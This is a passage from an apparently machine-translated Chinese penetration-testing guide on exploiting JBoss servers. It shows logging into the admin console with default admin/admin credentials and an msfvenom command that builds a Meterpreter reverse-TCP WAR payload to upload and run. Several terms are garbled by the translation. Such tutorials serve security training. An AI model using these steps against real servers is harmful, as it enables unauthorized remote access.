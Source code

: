 将`MainDeployer`MBean 作为部署入口点，所有组件部署请求都发送到`MainDeployer`。`MainDeployer`可以部署战争档案、**JARs**、**企业应用档案**（**EARs**）、**资源档案**（**RARs**）、**休眠档案**（**HARs**、**服务档案**（【T20 SARs），**BSHes**和许多其他部署包。

# JBoss 开发

现在我们已经清楚地了解了 JBoss 的侦察和漏洞扫描功能，让我们了解一下 JBoss 的漏洞利用。我们可以使用以下几种基本方法来利用 JBoss：

*   通过**管理控制台**（`admin-console`进行 JBoss 攻击
*   使用`MainDeployer`服务通过 JMX 控制台进行 JBoss 攻击
*   使用`MainDeployer`服务（Metasploit 版本）通过 JMX 控制台利用 JBoss 进行攻击
*   使用`BSHDeployer`服务通过 JMX 控制台进行 JBoss 攻击
*   使用`BSHDeployer`服务（Metasploit 版本）通过 JMX 控制台利用 JBoss 进行攻击
*   使用 Java 小程序通过 web 控制台进行 JBoss 攻击
*   使用`Invoker`方法通过 web 控制台进行 JBoss 攻击
*   使用第三方工具通过 web 控制台利用 JBoss

让我们逐一介绍这些方法。

# 通过管理控制台利用 JBoss 进行攻击

在本节中，我们将开始开发过程。第一步是访问管理控制台，默认情况下，管理控制台配置的用户名和密码分别为`admin`和`admin`。以下屏幕截图显示管理登录页面：

![](assets/7a9e93c7-7c86-490b-b096-07b77df25442.png)

成功登录后，我们将看到以下屏幕截图中显示的页面：

![](assets/e8daf257-f5cd-456d-a794-cddce4600c40.png)

利用该漏洞的下一步是找到在服务器上执行命令的方法，以便获得服务器级访问权限。从左侧菜单中，选择 Web 应用程序（WAR）选项，您将被重定向到以下屏幕截图所示的页面。我们将单击添加新资源按钮：

![](assets/06cb8a26-8af6-4c99-afe0-2f617bd5a053.png)

这将把我们带到一个新页面，在那里我们可以选择上传 WAR 文件。可以使用`msfvenom`和以下命令生成 WAR 文件：

```
msfvenom -p java/meterpreter/reverse_tcp lhost=<Metasploit_Handler_IP> lport=<Metasploit_Handler_Port> -f war -o <filename>.war
```

生成基于 WAR 的 Metasploit 负载后，我们将把文件上载到控制台的 Web 应用程序（WAR）部分，如下面的屏幕截图所示：

![](assets/ecada5d0-cd8f-4a8f-a965-fa3c580e165d.png)

成功上传文件后，我们只需转到文件解压缩到的目录，并在 web 浏览器上打开它即可获得 MeterMeter 连接，如以下屏幕截图所示：

![](assets/3ed42436-8f10-4367-bfb6-beea5686b4ff.png)

在运行有效载荷之前，我们需要考虑一些事情，最重要的是检查出口连接。如果执行了有效负载，但防火墙阻止了到服务器的出口流量（出站连接），那么我们需要找到一种方法来获得反向 shell。如果没有办法，我们可以选择绑定到服务器的连接。

# 通过 JMX 控制台（MainDeployer 方法）进行攻击

考虑下面的官方 JBOSS 文档中的引用（在 www.https://docs.jboss.org/jbossas/docs/Getting_Started_Guide/4/html-single/index.html ：
